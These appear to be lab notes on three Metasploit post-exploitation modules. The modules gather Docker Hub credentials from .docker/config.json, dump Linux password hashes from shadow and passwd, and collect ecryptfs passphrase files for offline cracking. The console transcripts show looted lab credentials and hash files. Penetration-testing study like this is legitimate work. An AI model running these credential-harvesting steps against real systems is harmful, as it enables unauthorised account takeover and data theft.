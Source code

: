 ## Docker creds

https://www.rapid7.com/db/modules/post/multi/gather/docker_creds/

> This module will collect the contents of all users' .docker directories on the targeted machine. If the user has already push to docker hub, chances are that the password was saved in base64 (default behavior). 

```
msf5 post(multi/gather/docker_creds) > set SESSION 1
SESSION => 1
msf5 post(multi/gather/docker_creds) > run

[*] Finding .docker directories
[*] Looting 1 directories
[*] Downloading /root/.docker/config.json -> config.json
[+] Found attackdefence:Str0ngPassword@123
[+] Saved credentials
[*] Post module execution completed
```

## Hash dump

https://www.rapid7.com/db/modules/post/linux/gather/hashdump/

> Post Module to dump the password hashes for all users on a Linux System 

```
msf5 post(linux/gather/hashdump) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/hashdump) > set VERBOSE true
VERBOSE => true
msf5 post(linux/gather/hashdump) > run

[!] SESSION may not be compatible with this module.
[+] Shadow saved in: /root/.msf4/loot/20210502002455_default_192.209.15.3_linux.shadow_429827.txt
[+] passwd saved in: /root/.msf4/loot/20210502002455_default_192.209.15.3_linux.passwd_819746.txt
[+] Unshadowed Password File: /root/.msf4/loot/20210502002455_default_192.209.15.3_linux.hashes_925855.txt
[*] Post module execution completed
```

## Gather ecryptfs metadata

https://www.rapid7.com/db/modules/post/linux/gather/ecryptfs_creds/

> This module will collect the contents of all users' .ecrypts directories on the targeted machine. Collected "wrapped-passphrase" files can be cracked with John the Ripper (JtR) to recover "mount passphrases". 

```
msf5 post(linux/gather/ecryptfs_creds) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/ecryptfs_creds) > run

[!] SESSION may not be compatible with this module.
[*] Finding .ecryptfs directories
[*] Looting 1 directories
[*] Downloading /root/.ecryptfs/sig-cache.txt -> sig-cache.txt
[+] File stored in: /root/.msf4/loot/20210502002652_default_192.209.15.3_ecryptfs.sigcac_615414.txt
[*] Post module execution completed
```
